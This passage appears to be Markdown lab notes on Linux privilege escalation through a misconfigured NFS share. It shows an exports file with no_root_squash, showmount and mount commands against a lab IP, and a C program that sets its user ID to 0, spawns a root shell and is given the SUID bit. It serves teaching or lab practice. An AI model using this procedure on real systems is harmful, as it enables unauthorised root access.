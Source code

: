     # /etc/exports: the access control list for filesystems which may be exported
    #               to NFS clients.  See exports(5).
    #
    # Example for NFSv2 and NFSv3:
    # /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
    #
    # Example for NFSv4:
    # /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
    # /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
    #
    /home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
    /tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
    /home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
    ```
- If the `“no_root_squash”` option is present on a writable share, we can create an executable with SUID bit set and run it on the target system

    - Enumerate mountable shares from our attacking machine.
        - `showmount -e 10.10.17.59`

    - we can mount above shares, we are interested in `no_root_sqash` so will mount /home/backup
     - `mkdir /tmp/targetsharebackup` > `mount -o rw 10.10.17.59:/home/backup /tmp/targetsharebackup `

    - Now since As we can set SUID bits, a simple executable that will run /bin/bash on the target system will do the job.
     - `cd /tmp/targetsharebackup` 

        ```
        ┌──(root㉿kali)-[/tmp/targetsharebackup]
        └─# `nano nfc.c`  

        #include<unistd.h>
        void main (){
        setuid(0);
        setgid(0);
        system("/bin/bash");
        }
        ```
    - Complie the code to create executable and give SUID permission
     - `gcc nfc.c -o nfs` > `chmod u+s nfs`
            